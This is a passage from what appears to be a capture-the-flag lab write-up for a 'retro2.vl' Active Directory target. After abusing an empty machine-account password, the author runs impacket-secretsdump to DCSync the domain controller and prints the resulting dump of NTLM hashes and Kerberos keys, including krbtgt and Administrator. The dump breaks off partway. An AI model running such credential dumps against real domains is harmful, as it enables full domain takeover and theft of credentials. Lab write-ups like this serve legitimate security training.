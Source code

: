 The target is vulnerable and we set the password to an Empty String.

Means we can easily **DCSync** the **Domain Controller**.

```bash
impacket-secretsdump -just-dc retro2.vl/BLN01$:@10.129.239.24
```

The following output we received.

```md
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c06552bdb50ada21a7c74536c231b848:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:1e242a90fb9503f383255a4328e75756:::
admin:1000:aad3b435b51404eeaad3b435b51404ee:49c31c8f60320b9f416bc248231c008c:::
Julie.Martin:1105:aad3b435b51404eeaad3b435b51404ee:cf4999af837f40d72d1c5bcec27ba9b6:::
Clare.Smith:1106:aad3b435b51404eeaad3b435b51404ee:a7c82ec08414f0c54637fad20b9aac9e:::
Laura.Davies:1107:aad3b435b51404eeaad3b435b51404ee:ee74607fad6d8c51b0d488e322f82317:::
Rhys.Richards:1108:aad3b435b51404eeaad3b435b51404ee:09377f210fdbdcda6f97eda91ddc6879:::
Leah.Robinson:1109:aad3b435b51404eeaad3b435b51404ee:6333c620221c04d8fb5b6d7ca8b6d6d7:::
Michelle.Bird:1110:aad3b435b51404eeaad3b435b51404ee:c823220a9bda3ca70ebe7362187c9004:::
Kayleigh.Stephenson:1111:aad3b435b51404eeaad3b435b51404ee:a78835f0139b3b206f9598fe9c18d707:::
Charles.Singh:1112:aad3b435b51404eeaad3b435b51404ee:432119e62a10aff8c8200e4f45e772a0:::
Sam.Humphreys:1113:aad3b435b51404eeaad3b435b51404ee:3c1508fc774de1e6040c68b41a17fdee:::
Margaret.Austin:1114:aad3b435b51404eeaad3b435b51404ee:c6ebda46b0b014eda3ffcb8d92d179d9:::
Caroline.James:1115:aad3b435b51404eeaad3b435b51404ee:80835fee4ce88524f63a0ecf60870ac0:::
Lynda.Giles:1116:aad3b435b51404eeaad3b435b51404ee:dbf17856bd378ec410c20b98a749571f:::
Emily.Price:1117:aad3b435b51404eeaad3b435b51404ee:9cdf1d59674a6ddfedef2ae2545d3862:::
Lynne.Dennis:1118:aad3b435b51404eeaad3b435b51404ee:4b690295089b91881633113f13c866ee:::
Alexandra.Black:1119:aad3b435b51404eeaad3b435b51404ee:3349f04c2fdcf796a66c37b2a7658ae6:::
Alex.Scott:1120:aad3b435b51404eeaad3b435b51404ee:200155446e3b3817e8bc857dfe01b58c:::
Mandy.Davies:1121:aad3b435b51404eeaad3b435b51404ee:c144842c62c3051b8f1b8467ec62ef1f:::
Marilyn.Whitehouse:1122:aad3b435b51404eeaad3b435b51404ee:097b5b5b97e2a3b07db0b3deac5cd303:::
Lindsey.Harrison:1123:aad3b435b51404eeaad3b435b51404ee:261b8b9c79b19345e8ea15dcdfc03ecd:::
Sally.Davey:1124:aad3b435b51404eeaad3b435b51404ee:78ac830ac29ae1df8fa569b39515d5a5:::
retro2.vl\inventory:1128:aad3b435b51404eeaad3b435b51404ee:46b019644dde01251e7044a3d4185bd1:::
retro2.vl\ldapreader:1130:aad3b435b51404eeaad3b435b51404ee:fe63aaefd1cfd29d7cc5c14321a725f3:::
BLN01$:1001:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
ADMWS01$:1127:aad3b435b51404eeaad3b435b51404ee:7743e5e4f86ed6f20083e5849378c660:::
FS01$:1131:aad3b435b51404eeaad3b435b51404ee:7743e5e4f86ed6f20083e5849378c660:::
FS02$:1132:aad3b435b51404eeaad3b435b51404ee:7743e5e4f86ed6f20083e5849378c660:::
[*] Kerberos keys grabbed
krbtgt:aes256-cts-hmac-sha1-96:1de3d3d429521d8d99e4b4b31da5ce5f993902a8876adaabdd9449a5256c220f
krbtgt:aes128-cts-hmac-sha1-96:8250eee9083a48b1fca675d7d0ce3699
krbtgt:des-cbc-md5:d334438313291520
admin:aes256-cts-hmac-sha1-96:055842e1ada4e1cba5bd0286a4fa9de9337b0324104adc533aabea23ddc353b7
admin:aes128-cts-hmac-sha1-96:1e0f4d9eb0ea70d225db67d53f297934
admin:des-cbc-md5:70d0624397c708df
Julie.Martin:aes256-cts-hmac-sha1-96:5428f080b3303d74da2a344d0b799d97dfb5795fee1d1ed64b3e7e9cc3cbec5c
Julie.Martin:aes128-cts-hmac-sha1-96:8757cfac9fd8af791bd8f5c9b8bfac0c
Julie.Martin:des-cbc-md5:0e85dca2e3e6291a
Clare.Smith:aes256-cts-hmac-sha1-96:65c7c8d4e980f1e63fab4af0fb8b8dc17e9bddff20e7b8bb5fa5c1690561f406
Clare.Smith:aes128-cts-hmac-sha1-96:54cc3c8caadcd6e9b605d2da4c96e55f
Clare.Smith:des-cbc-md5:61fe8f52b39ecb9d
Laura.Davies:aes256-cts-hmac-sha1-96:9ada131aebb330b859770d3177e4b6bf2e37e994d83761e83c296e3dd0549fa4
Laura.Davies:aes128-cts-hmac-sha1-96:c00363c7acdb7e6efb47e90c46eb73f5
Laura.Davies:des-cbc-md5:31d670ec9b16c762
Rhys.Richards:aes256-cts-hmac-sha1-96:805f8d2f3f6c92cbf7bf0fc2449ec03ac8446b0f595aeb68d5e34932bdf1f9a8
```